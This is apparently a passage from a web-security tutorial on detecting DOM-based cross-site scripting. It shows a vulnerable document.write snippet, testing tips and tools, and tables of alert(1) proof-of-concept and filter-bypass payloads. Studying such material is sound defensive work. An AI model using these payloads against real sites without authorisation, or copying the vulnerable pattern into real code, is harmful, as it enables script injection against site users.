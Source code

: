 
### 🔥 Practical Exploit Example

JS code on the page:

```javascript
let q = location.search;
document.write(q);
```

Your payload:

```
https://vuln.site/page?q=<script>alert(1)</script>
```

No XSS appears in response, but as soon as browser hits the line `document.write(q)` — boom, you get XSS.

---

## 🧪 Tips for Detecting DOM-Based XSS

1. **Look at the client-side JS**:

   * Inspect JavaScript via DevTools or JS Beautifiers.
   * Search for the keywords mentioned above.
   * See how user input is used (e.g., innerHTML, eval, document.write).

2. **Use browser-based tools**:

   * **DOM Invader** (built into Burp Suite Pro)
   * **XSStrike**
   * **bruteDOM** (DOM XSS fuzzer)

3. **Manually test with alert payloads**:

   * Inject simple payloads into the **URL hash**, **search**, or **referrer**.
   * Observe execution in DevTools console.

---

## ✅ Summary Cheat Sheet

| Detection Type       | Description                                                 | Strengths                    | Weaknesses                       |
| -------------------- | ----------------------------------------------------------- | ---------------------------- | -------------------------------- |
| Basic PoC string     | `"><script>alert(1)</script>`                               | Easy, fast, good first try   | Misses filtered or DOM-based XSS |
| Obfuscation bypasses | Use case change, encoded payloads, or fragmented tags       | Bypasses naive filters       | Still fails if context is tight  |
| DOM-based testing    | Focus on how JS handles input from DOM, not server response | Finds client-side only vulns | Needs manual analysis or tooling |

---

### ✅ Sample Obfuscated Payloads to Practice With

| Payload                             | Description                               |
| ----------------------------------- | ----------------------------------------- |
| `"><img src=x onerror=alert(1)>`    | Bypasses `<script>` filtering             |
| `"><svg/onload=alert(1)>`           | SVG tag with event handler                |
| `%3Cscript%3Ealert(1)%3C/script%3E` | Encoded form                              |
| `"><body onload=alert(1)>`          | Exploits HTML body tag                    |
| `javascript:alert(1)`               | `href` or `src` based attack (contextual) |

---
